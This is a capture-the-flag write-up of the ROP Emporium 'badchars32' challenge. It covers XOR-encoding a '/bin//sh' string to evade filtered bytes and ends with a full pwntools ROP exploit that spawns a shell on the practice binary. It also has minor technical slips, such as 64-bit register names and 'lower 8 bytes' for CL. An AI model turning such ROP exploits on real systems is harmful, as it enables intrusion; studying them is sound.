


# bacdchars32

Link: https://ropemporium.com/challenge/badchars.html

Description: *An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack*

--------------------------


## 1. Calculating EIP overwrite offset

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 42 characters we see two "41" in RIP registry:




## 2. Studying the bad characters

Then we must find the hexadecimal values of the bad characters the binary tells us that exist in it:

- b - 62
- i - 69
- c - 63
- / - 2f
- <space> - 20
- f - 66
- n - 6e
- s - 73


**bad_chars = ["62", "69", "63", "2f", "20", "66", "6e", "73"]**


## 3. Studying the binary: write-what-where gadgets and XOR operations

Then we find we only have one with the structure "mov [reg], reg":

- 0x08048893 : mov dword ptr [edi], esi ; ret

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep mov | grep "\["
```

We can control R12 and R13 with a single gadget:

- 0x08048899 : pop esi ; pop edi ; ret

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep pop | grep esi
```


Then we will look for the start address of .data, which is writable:

```
objdump -x badchars32
```


We will use EDI and ESI to write "/bin/sh" in memory, so our script needs these variables:

- **writewhatwhere =  0x08048893**

- **pop_esi_edi_ret = 0x08048899**

- **writable_memory = 0x0804a038**

```
mov [edi], esi

mov [0804a038], "/bin"

mov [0804a03c], "//sh"

```

The problem are the bad characters. We will try to use XOR instructions to change their values.

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep xor
```

- 0x08048890 : xor byte ptr [ebx], cl ; ret

- 0x080484e7 : xor byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x8048474

- 0x08048ae3 : xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret


## 4. Creating the exploit

The idea is that we can make a XOR operation between the register whose value the first register is pointing, so it will point to the writable address in memory where we write our payload (in this case encoded so it does not contain any bad characters) and the value of the second register, and the result is stored in the register pointed in the first register.

The easiest one of the three listed XOR gadgets is the first one (*xor byte ptr [ebx], cl ; ret*), and we can control easily ECX and EBX with a single pop-pop-ret gadget:

- 0x08048896 : pop ebx ; pop ecx ; ret

So the idea is:

```
xor [address of writable memory], value_to_xor

xor byte ptr [ebx], cl
```


For reference, the register *CL* is the lower 8 bytes of the register ECX ([source](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture)):


Then, we can send a encoded payload with the write-what-where gadget (without bad characters) and use the XOR gadget to "decode" the payload and get the original string (in this case, "/bin//sh").

Then, the first character will be XORed with a value, in this case 0x12 (*byte_for_xor="12"*):

```
rop += p32(pop_ebx_ecx) + p32(writable_memory+i) + p32(int(("0x"+byte_for_xor),16)) 
rop += p32(xor_ebx_ecx)
```

We will send a 8-characters command like this one:

```
//bin/sh -> hs/nib// -> 68732f6e69622f2f (Reversed and in hexadecimal)

68732f6e69622f2f xor 1212121212121212 = 7a613d7c7b703d3d

7a613d7c7b703d3d xor 1212121212121212 = 68732f6e69622f2f
```

In this case we will use this custom function:

```
def string_to_hex(string_, byte):
	a = "0x"
	for i in string_[::-1]:
		a += i.encode("hex")
	a = int(a, 16)
	xorer = int( ("0x"+byte*8) , 16)
	xorer = str(hex(a ^ xorer)).replace("0x","")
	xorer = [xorer[i:i+8] for i in range(0, len(xorer), 8)]
	return int(("0x"+xorer[0]),16),int(("0x"+xorer[1]),16)
```

But you can also use these two website:

- XOR online - http://xor.pw/#

- ASCII to HEX - https://www.rapidtables.com/convert/number/ascii-to-hex.html

It works without problem:




## 5. Final exploit

The final exploit code is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'badchars32'
p = process('./'+binary_name)
elf =  ELF(binary_name)


def check_chars(address):
	bad_chars = ["62", "69", "63", "2f", "20", "66", "6e", "73"]
	vals = hex(address).replace("0x","")
	vals2 = [vals[i:i+2] for i in range(0, len(vals), 2)]
	for v in vals2:
		if v in bad_chars:
			print "Problem with %s"%hex(address)


def string_to_hex(string_, byte):
	a = "0x"
	for i in string_[::-1]:
		a += i.encode("hex")
	a = int(a, 16)
	xorer = int( ("0x"+byte*8) , 16)
	xorer = str(hex(a ^ xorer)).replace("0x","")
	xorer = [xorer[i:i+8] for i in range(0, len(xorer), 8)]
	return int(("0x"+xorer[0]),16),int(("0x"+xorer[1]),16)


system = elf.sym["system"] 
pop_esi_edi_ret = 0x08048899 # 0x08048899 : pop esi ; pop edi ; ret
writewhatwhere =  0x08048893 # 0x08048893 : mov dword ptr [edi], esi ; ret
writable_memory = 0x0804a040 # .bss:  0x0804a040
exit =            0x080485a8 #  80485a8:	c9                   	leave  
xor_ebx_ecx =     0x08048890 # 0x08048890 : xor byte ptr [ebx], cl ; ret
pop_ebx_ecx =     0x08048896 # 0x08048896 : pop ebx ; pop ecx ; ret
byte_for_xor =    "12"
c1,c2 =           string_to_hex("/bin//sh", byte_for_xor)

check_chars(pop_esi_edi_ret)
check_chars(writewhatwhere)
check_chars(writable_memory)
check_chars(exit)
check_chars(xor_ebx_ecx)
check_chars(pop_ebx_ecx)
check_chars(c1)
check_chars(c2)

log.info("System address (.plt): " + hex(system))
log.info(".data section start    " + hex(writable_memory))
log.info("Write-what-where       " + hex(writewhatwhere))
log.info("xor [ebx], cl          " + hex(xor_ebx_ecx))
log.info("pop ebx; pop ecx; ret: " + hex(pop_ebx_ecx))
log.info("pop esi; pop edi; ret: " + hex(pop_esi_edi_ret))
log.info("1st part of command:   " + hex(c1))
log.info("2nd part of command:   " + hex(c2))
log.info("XORed with byte:       0x" + (byte_for_xor))

rop =  "A"*44
rop += p32(pop_esi_edi_ret) + p32(c2) + p32(writable_memory)
rop += p32(writewhatwhere)
rop += p32(pop_esi_edi_ret) + p32(c1) + p32(writable_memory+4) 
rop += p32(writewhatwhere)

for i in range(0,8):
	rop += p32(pop_ebx_ecx) + p32(writable_memory+i) + p32(int(("0x"+byte_for_xor),16)) 
	rop += p32(xor_ebx_ecx)

rop += p32(system) + p32(exit) + p32(writable_memory)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```